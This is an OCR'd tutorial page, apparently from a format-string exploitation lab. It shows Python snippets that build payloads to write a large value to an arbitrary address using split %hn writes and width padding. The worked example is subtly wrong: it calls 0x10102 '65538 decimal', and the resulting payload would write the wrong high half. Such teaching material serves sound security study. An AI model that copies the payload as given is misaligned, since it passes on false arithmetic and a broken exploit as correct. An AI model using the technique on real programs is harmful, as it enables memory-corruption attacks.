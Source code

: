 📖 Finding Format String Offset


Level 4 - Advanced Format Strings
🎯 Concepts Covered
1. Writing Large Values
Challenge:
Need to write a large number (like 0x01025544) without printing millions of characters.
Solution: Split into Multiple Writes
python# Target: Write 0x01025544 to address 0x08049810

# Split into 2 shorts:
# Low:  0x5544 = 21828 decimal
# High: 0x0102 = 258 decimal

# Write to two adjacent addresses:
addr_low = "\x10\x98\x04\x08"   # 0x08049810
addr_high = "\x12\x98\x04\x08"  # 0x08049812

# But 258 < 21828, so we need to wrap around
# Use 0x10102 instead: 65538 decimal
# 65538 - 21828 = 43710

payload = addr_low + addr_high
payload += "%21820x"    # Print 21820 (21828 - 8 for addresses)
payload += "%4$hn"      # Write to low address
payload += "%43710x"    # Print additional 43710
payload += "%5$hn"      # Write to high address
Learn More:

📖 Writing Arbitrary Values

2. Precision Padding
Using Width Specifier:
cprintf("%10x", 5);     // "         5" (10 characters)
printf("%100x", 5);    // "   ...   5" (100 characters)
In Exploitation:
python# Need to print exactly N bytes before %n
target_value = 1234
already_printed = 8  # Two addresses

padding = target_value - already_printed
payload = addresses + "%%%dx" % padding + "%4$n"
Learn More:
